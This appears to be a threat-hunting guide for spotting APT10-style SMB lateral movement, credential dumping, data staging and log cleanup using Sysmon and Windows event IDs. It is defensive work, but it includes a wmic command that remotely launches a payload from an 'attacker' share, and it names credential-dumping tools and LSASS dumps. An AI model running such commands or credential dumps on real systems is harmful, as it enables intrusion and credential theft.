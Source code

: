 
> 🎯 **Objective**: Identify stealthy use of **SMB protocol** for lateral movement and **credential/data staging** consistent with **APT10** tradecraft, without relying on malware or noisy alerts.

APT10 (a.k.a. Stone Panda) has historically used **legitimate tools** and SMB shares to spread across environments and **harvest credentials** quietly.

---

## ✅ Hypothesis

> “A threat actor is using SMB shares for lateral movement and staging stolen credentials or files, while avoiding malware detection by using native Windows utilities.”

---

## 🧱 Tactics to Focus On

1. **Lateral Movement** — Copying tools/scripts over SMB, remote execution
2. **Credential Access** — Harvesting with native tools (e.g., `creddump`, `mimikatz`)
3. **Staging** — Data written to hidden or unusual SMB shares
4. **Defense Evasion** — Living off the land (LOLBINs), rare admin tools
5. **Exfil Preparation** — Compressing or encrypting data for removal

---

## 🔍 Hunt Steps (True Threat Hunt Chain)

---

### **1. Hunt for Unusual SMB File Transfers**

**Why:**
APT10 often copies tools or credential dumps to admin shares like `C$`, `ADMIN$`, or custom UNC paths.

**Look For:**

* Sysmon Event ID 3:

  * `DestinationPort: 445`
  * `Image: cmd.exe`, `powershell.exe`, `explorer.exe`, `wmic.exe`
* Windows Security Log:

  * Event ID **5140**: "A network share object was accessed"
  * Look for share names like `\\HOST\C$`, `\\HOST\ADMIN$`

**Thought Process:**

> Was a share accessed by a non-admin account?
> Was a binary or dump file copied across machines?

---

### **2. Trace File Writes to Shared Locations**

**Why:**
APT10 stages tools like credential dumpers or archives in shared folders before or after use.

**Look For:**

* Sysmon Event ID 11:

  * File creation under paths like:

    * `\\HOST\C$\Users\Public\`
    * `\\HOST\ADMIN$\Temp\`
  * File names like `data.zip`, `creds.txt`, `tools.dll`

**Thought Process:**

> What files were copied over SMB?
> Are these typical system files or suspicious binaries/scripts?

---

### **3. Detect Credential Harvesting Behavior**

**Why:**
APT10 uses tools like `mimikatz`, `procdump`, or custom scripts to dump credentials and DPAPI secrets.

**Look For:**

* Sysmon Event ID 10:

  * `TargetImage: lsass.exe`
  * `SourceImage`: `rundll32.exe`, `powershell.exe`, `procdump.exe`
* File creation of:

  * `lsass.dmp`, `creds.dmp`, `vault.txt`, or `hashes.txt`

**Thought Process:**

> Is there evidence of LSASS access from a remote host?
> Did the attacker dump credentials then stage them locally?

---

### **4. Look for Lateral Execution from Admin Shares**

**Why:**
APT10 often remotely executes tools via `wmic`, `schtasks`, or `PSExec`, launching payloads from SMB paths.

**Look For:**

* Event ID 4688:

  * `CommandLine` includes UNC paths: `\\HOST\C$\path\tool.exe`
* Sysmon Event ID 1:

  * Executables running from mapped shares or network paths

**Command Examples:**

```cmd
wmic /node:HOST process call create "\\attacker\share\payload.exe"
```

**Thought Process:**

> Was execution initiated over SMB?
> Are these tools unsigned or renamed?

---

### **5. Hunt for Data Staging Behavior**

**Why:**
APT10 often compresses credential dumps and reconnaissance data before exfiltration.

**Look For:**

* File creation:

  * `*.zip`, `*.rar`, `*.7z`, or `.cab` files created after credential harvesting
* Tools like:

  * `makecab.exe`, `rar.exe`, `powershell Compress-Archive`

**Thought Process:**

> Was data staged for exfiltration?
> Where was it written — local disk or a network share?

---

### **6. Analyze Account Usage Across Hosts**

**Why:**
Credential reuse across multiple hosts is a signature of lateral movement by APT10.

**Look For:**

* Security Event ID 4624:

  * Same account logging into 3+ hosts within 5–10 minutes
  * `LogonType=3` (network) or `LogonType=10` (RDP)
* Event ID 4648:

  * Explicit credentials used — may indicate pass-the-hash or token theft

**Thought Process:**

> Is the account normally used this way?
> Was it escalated or lateral?

---

### **7. Look for Cleanup or Evasion Steps**

**Why:**
APT10 sometimes cleans up artifacts — deletes dumps, clears logs, or removes scheduled tasks.

**Look For:**

* Sysmon Event ID 23/24: File deleted
* Event ID 1102: Audit log cleared
* PowerShell log: `Remove-Item`, `Clear-Content`, `schtasks /delete`

**Thought Process:**

> Did the attacker cover their tracks?
> Were staged files removed shortly after creation?

---

## 🧠 Summary

This hunt **does not rely on alerts** and instead chains APT10’s known behaviors:

* SMB access to move tools
* Credential dumps staged over shares
* Remote execution using LOLBINs
* Dump compression
* Lateral spread via stolen credentials
